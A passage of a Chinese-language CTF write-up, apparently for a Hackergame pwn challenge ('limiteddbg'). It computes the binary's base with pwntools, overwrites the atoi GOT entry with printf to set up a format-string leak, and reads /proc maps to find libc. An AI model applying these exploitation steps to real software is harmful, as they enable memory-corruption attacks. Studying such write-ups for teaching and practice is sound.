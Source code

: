 	- 计算偏移，这里选用 `python + pwntools`：
```python
❯ ipython
  Python        :  3.11.9 (main, Apr  2 2024, 08:25:04) [GCC 13.2.0]
  IPython       :  8.23.0
  Interpreter   :  /nix/store/3qwa9wgjfcqil4fnml69wh9745jfvc3g-python3-3.11.9-env/bin/python3.11

[ins] In [1]: from pwn import *

[ins] In [2]: elf = ELF("./pwn")
[*] '/home/eastxuelian/workspace/TA/info-sec/binary-challenges/hackergame-challenge-docker/limiteddbg/exp/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

[ins] In [3]: elf_base = (93843591008307 & ~0xfff) - (elf.sym.command & ~0xfff)

[ins] In [4]: hex(elf_base)
Out[4]: '0x5559a9e7d000'
```

3. 得到 elf 基地址后可以篡改 `atoi` 的 got 表项为 `printf` 以泄漏 libc 地址：

	- 计算偏移：
	```python
	[ins] In [5]: hex(elf_base + elf.got.atoi)
	Out[5]: '0x5559a9e81058'
	
	[ins] In [6]: hex(elf_base + elf.plt.printf)
	Out[6]: '0x5559a9e7e0f4'
	```

	- 利用：
	```bash
	isadbg> set 0x5559a9e81058 0x5559a9e7e0f4
	```

4. 用格式化字符串来泄漏地址，这里提供一种无需调试的办法：

	- 先在本地运行起来，用 `cat /proc/<pid>/maps` 确定 libc 地址范围：
	```bash
	❯ ps -aux | grep pwn
	eastxue+ 2483885  0.0  0.0   2660  1120 pts/9    S+   13:52   0:00 ./pwn
	❯ cat /proc/2483885/maps
	# ...
	7f3c8a400000-7f3c8a428000 r--p 00000000 00:21 9791780                    /home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6
	7f3c8a428000-7f3c8a5bd000 r-xp 00028000 00:21 9791780                    /home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6
	7f3c8a5bd000-7f3c8a615000 r--p 001bd000 00:21 9791780                    /home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6
	7f3c8a615000-7f3c8a616000 ---p 00215000 00:21 9791780                    /home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6
	7f3c8a616000-7f3c8a61a000 r--p 00215000 00:21 9791780                    /home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6
	7f3c8a61a000-7f3c8a61c000 rw-p 00219000 00:21 9791780                    /home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6
	# ...
	```

